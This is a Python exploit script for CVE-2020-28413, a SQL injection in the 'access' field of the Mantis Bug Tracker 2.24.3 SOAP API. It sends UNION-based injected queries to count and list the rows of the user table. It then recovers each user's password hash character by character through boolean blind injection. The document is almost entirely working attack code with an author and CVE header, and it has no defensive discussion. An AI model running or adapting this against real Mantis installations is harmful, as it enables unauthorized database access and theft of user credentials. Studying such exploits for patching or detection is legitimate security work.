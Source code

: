 EXP
---

    # Exploit Title: Mantis Bug Tracker 2.24.3 - 'access' SQL Injection
    # Date: 30/12/2020
    # Exploit Author: EthicalHCOP
    # Vendor Homepage: https://www.mantisbt.org/
    # Version: 2.24.3
    # CVE: CVE-2020-28413

    import requests, sys, time
    from lxml import etree

    proxies = {
         "http": "http://127.0.0.1:8080",
         "https": "http://127.0.0.1:8080",
        }

    def Hacer_Peticion(query):
        home = ""
        url = home+"/api/soap/mantisconnect.php"
        headers = {'content-type': 'text/xml',
                   'SOAPAction': url+'"/mc_project_get_users"'}
        mantis_db_user = ""
        mantis_db_pass = ""
        body = """<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:man="http://futureware.biz/mantisconnect">
           <soapenv:Header/>
           <soapenv:Body>
              <man:mc_project_get_users soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
                 <username xsi:type="xsd:string">"""+mantis_db_user+"""</username>
                 <password xsi:type="xsd:string">"""+mantis_db_pass+"""</password>
                 <project_id xsi:type="xsd:integer">0</project_id>
                 <access xsi:type="xsd:string">"""+query+"""</access>
              </man:mc_project_get_users>
           </soapenv:Body>
        </soapenv:Envelope>"""
        response = requests.post(url, data=body, headers=headers, verify=False)
        #response = requests.post(url, data=body, headers=headers, proxies=proxies, verify=False)
        parser = etree.XMLParser(remove_blank_text=True)
        xml = etree.XML(response.content, parser)
        xml = etree.tostring(xml)
        return(str(xml))

    def Cantidad_Usuarios_Mantis():
        query = "0 union all select concat('-',(select count(*) " \
                "from mantis_user_table),'0'),2,3,4 order by id asc limit 1"
        xml = Hacer_Peticion(query)
        txt = xml.split("integer")
        txt = txt[1].split("id")
        registros = str(str(str(txt[0])[:-2])[-2:])[:-1]
        return(registros)

    def Obtener_Id(usr_pos):
        query = "0 union all select concat((SELECT id FROM mantis_user_table " \
                "order by id asc limit 0,1),'0'),2,3,4 limit "+str(usr_pos)+",1"
        xml = Hacer_Peticion(query)
        txt = xml.split("integer")
        txt = txt[1].split("id")
        id = str(str(txt[0])[:-2])[-1:]
        name = str(str(txt[1])[29:]).split("</name>")[0]
        return (id+"-"+name)

    def brute_force(data):
        charts = "abcdefghijklmnopqrstuvwxyz0123456789"
        passw = ""
        id = data.split("-")[0]
        name = data.split("-")[1]
        for cp in range (1,33,1):
            for c in charts:
                print(f"\rHash: {passw}", end="")
                time.sleep(0.00001)
                sys.stdout.flush()
                query = "0 union all select (select if(substring((select binary(password) " \
                        "from mantis_user_table where id = " + str(id) + ")," + str(cp) + ",1)='" + str(c) + "','0','900000000000000000000')), 2,3,4 order by id asc limit 1"
                xml = Hacer_Peticion(query)
                txt = xml.split("integer")
                txt = txt[1].split("id")
                r_id = str(str(txt[0])[:-2])[-1:]
                if(r_id=="0"):
                    passw = passw + str(c)
                    break
        print(f"\r", end="")
        sys.stdout.flush()
        print(name+": "+passw)

    def main():
        cantidad_users = Cantidad_Usuarios_Mantis()
        print("Cantidad usuarios en db: "+str(cantidad_users))
        print("Obteniendo Hashes...")
        for x in range(0,int(cantidad_users),1):
            brute_force(Obtener_Id(x))

    if __name__ == "__main__":
        main()